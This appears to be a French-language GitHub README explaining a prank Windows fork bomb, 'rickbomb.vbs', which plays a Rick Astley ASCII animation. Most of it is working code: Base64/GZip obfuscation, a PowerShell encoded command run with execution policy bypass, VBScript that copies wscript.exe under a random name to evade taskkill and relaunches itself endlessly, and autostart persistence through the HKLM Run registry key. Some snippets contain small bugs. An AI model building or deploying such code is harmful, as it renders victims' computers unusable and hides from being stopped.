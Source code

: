 # Précisions sur le script

J'ai fait le script en format VBScript. Il s'agit d'un fichier à l'extension .vbs et son interpréteur est wscript.exe. J'ai choisi cet interpréteur car contrairement à PowerShell ou Batch, on peut le lancer en arrière-plan sans démarrer une fenêtre de console. 

En ouvrant le fichier VBS, on remarque variables qui contiennent d'étranges chaînes de caractères.


## L'animation de Rick Astley

La variable **a** dans le script est un gros bloc de texte encodé en [Base64](https://fr.wikipedia.org/wiki/Base64). C'est un format utilisé pour représenter des données binaires, non textuelles, en utilisant seulement des caractères textuels. 

Pour construire ce bloc, j'ai créé un fichier avec toutes les trames de l'animation (voir le fichier `rickanim.txt`). J'ai mis un caractère `#` à la fin de chaque trame. Comme ça donne un fichier assez gros, j'ai cru bon compresser la chaîne avec GZip, un algorithme particulièrement efficace sur les chaînes de caractères. Je l'ai fait en appelant des méthodes .NET en PowerShell.

En partant de l'animation en texte brut, `rickanim.txt`, j'ai généré une chaîne compressée, que j'ai enregistré dans le fichier `r.txt`.

```powershell
# L'animation est stockée dans un fichier texte. On stocke le contenu dans une variable.
$String = Get-Content ".\rickanim.txt" -Raw

# On va chercher les octets de la chaîne de caractères.
$Bytes = [System.Text.Encoding]::UTF8.GetBytes($String)

# Ces octets sont compressés en utilisant Gzip.
[System.IO.MemoryStream] $OutputStream = New-Object System.IO.MemoryStream
$GzipStream = New-Object System.IO.Compression.GzipStream $OutputStream, ([IO.Compression.CompressionMode]::Compress)
$GzipStream.Write($Bytes, 0, $Bytes.Count)
$GzipStream.Close()
$OutputStream.Close()
$CompressedBytes = $OutputStream.ToArray()

# On convertit les octets compressés en BASE64
$CompressedString = [Convert]::toBase64String($CompressedBytes)

# On écrit le résultat dans un fichier texte.
$CompressedString | Set-Content ".\r.txt" -Encoding utf8
```

Il suffit ensuite de copier ce texte dans le script en le brisant avec plusieurs lignes (en VBScript, le caractère `&` sert à concaténer deux chaînes, et le caractère `_` sert à étendre une seule ligne de code sur plusieurs lignes de texte. )

Pour décompresser, il suffit de faire l'opération inverse:

```powershell
# On stocke le contenu du fichier texte compressé en BASE64 dans une variable.
$CompressedString = Get-Content ".\r.txt" -Raw

# On décompresse avec Gzip.
$InputStream = New-Object System.IO.MemoryStream(,[Convert]::FromBase64String($CompressedString))
$OutputStream = New-Object System.IO.MemoryStream
$GzipStream = New-Object System.IO.Compression.GzipStream $InputStream,([IO.Compression.CompressionMode]::Decompress)
$GzipStream.CopyTo($OutputStream)
$GzipStream.Close()
$OutputStream.Close()
$InputStream.Close()
$Bytes = $OutputStream.ToArray()

# On restitue une chaîne de caractères à partir des octets.
$String = [System.Text.Encoding]::utf8.GetString()

# On écrit le résultat dans un fichier texte.
$String | Set-Content ".\r_decoded.txt" -Encoding utf8
```

## Le script PowerShell

La variable **b** contient aussi une chaîne encodée en BASE64. Contrairement à l'animation de Rick, cette chaîne n'est pas compressée. On extrait simplement les octets en format Unicode [UTF-16LE](https://en.wikipedia.org/wiki/UTF-16) puis on les convertit en BASE64. Ce script obtient la chaîne à partir du fichier `r.txt`.

```powershell
# On stocke le script PowerShell à encoder dans une variable.
$script = [scriptblock]{
    $foo = Get-Content "$env:temp\r.txt" -Raw
    $bar = New-Object System.IO.MemoryStream(,[Convert]::FromBase64String($foo))
    $baz = New-Object System.IO.MemoryStream
    $qux = New-Object System.IO.Compression.GzipStream $bar,([IO.Compression.CompressionMode]::Decompress)
    $qux.CopyTo($baz) ; $qux.Close() ; $baz.Close() ; $bar.Close()
    $quux = [System.Text.Encoding]::utf8.GetString($baz.ToArray())
    while($true){ $quux.split('#') | ForEach-Object{Clear-Host;$_;Start-Sleep -Milliseconds 50} }
}

# On convertit le script en chaîne de caractères et on en extrait les octets UTF16-LE.
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script.ToString())

# On encode ces octets en BASE64.
$encodedCommand = [Convert]::ToBase64String($bytes)

# Puis on écrit la chaîne résultante dans un fichier.
$String | Set-Content ".\encoded_script.txt" -Encoding utf8
```

L'interpréteur PowerShell permet de charger un script encodé en UTF-16LE directement en le passant en argument.

```powershell
powershell.exe -EncodedCommand $encodedCommand
```

Pour décoder le script PowerShell, on n'a qu'à faire l'opération inverse.

```powershell
$encodedString = Get-Content .\encoded_script.txt -Raw
$decodedBytes = [Convert]::fromBase64String($encodedString)   
[System.Text.Encoding]::Unicode.GetString($decodedBytes)
```

## La bombe

Avec ces deux chaînes encodées, le script est en mesure de lancer une fenêtre PowerShell avec l'animation de Rick Astley. Mais ce n'est pas la partie la plus dangereuse. Le mécanisme qui permet au script de démarrer en boucle est déterminé par le code VBScript.

Premièrement, le script doit initialiser des objets pour manipuler le *shell* et le système de fichiers.
```vb
set c = CreateObject("Scripting.FileSystemObject")
set d = CreateObject("WScript.Shell")
```

Ensuite, le script fait une copie de l'interpréteur `wscript.exe` dans le répertoire temporaire de l'utilisateur (`C:\Users\nomdelutilisateur\Appdata\Local\Temp\`) sous un nom de fichier généré aléatoirement. Cela évite de pouvoir mettre fin au virus avec une simple commande `taskkill /f /im wscript.exe`.
```vb
e = "c:\windows\system32\wscript.exe"
f = d.ExpandEnvironmentStrings("%tmp%") & "\" & c.GetTempName & ".exe"
c.CopyFile e, f, true
```

Il faut aussi écrire le contenu de la chaîne encodée de Rick dans un fichier texte de façon à ce que le script PowerShell qui démarrera par la suite puisse avoir accès aux données compressées. La chaîne est trop grande pour la passer directement dans la commande encodée, alors ça nous force à utiliser un fichier. On dépose le fichier dans le répertoire temporaire de l'utilisateur (`C:\Users\nomdelutilisateur\Appdata\Local\Temp\`).
```vb
g = d.ExpandEnvironmentStrings("%tmp%") & "\r.txt"
if not c.FileExists(g) then
    set h = c.CreateTextFile(g,True)
    h.Write a & vbCrLf
end if
```

On lance le script PowerShell encodé dans la variable `b` en parallèle.
```vb
d.run "powershell.exe -executionpolicy bypass -noexit -encodedcommand " & b, 1, False
```

Finalement, on exécute la copie de l'interpréteur wscript avec son nom aléatoire pour qu'il exécute le script
```vb
d.run f & " " & WScript.ScriptFullName,0,False
```

## Lancement de la bombe

Pour démarrer la bombe, il suffit d'exécuter le fichier `rickbomb.vbs` par l'interpréteur `wscript.exe` se trouvant dans `C:\Windows\System32\`. 

```bat
wscript.exe /b /nologo %windir%\rickbomb.vbs
```

## Lancement automatique

Pour que le script soit lancé automatiquement au démarrage d'une session utilisateur, on peut planifier son exécution de plusieurs manières. J'ai choisi de le déposer dans la clé *Run* du registre.

```powershell
# On copie le script dans C:\Windows\
$CopyFileSplat = @{
    Path = "$PSScriptRoot\rickbomb.vbs"
    Destination = "C:\Windows"
}
Copy-Item @CopyFileSplat -Force

# On crée l'entrée au registre pour le démarrage automatique
$RegValSplat = @{
    Path = "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
    Name = "rickbomb"
    PropertyType = "ExpandString"
    Value = "%windir%\system32\wscript.exe /b /nologo %windir%\rickbomb.vbs"
}
New-ItemProperty @RegValSplat -Force
```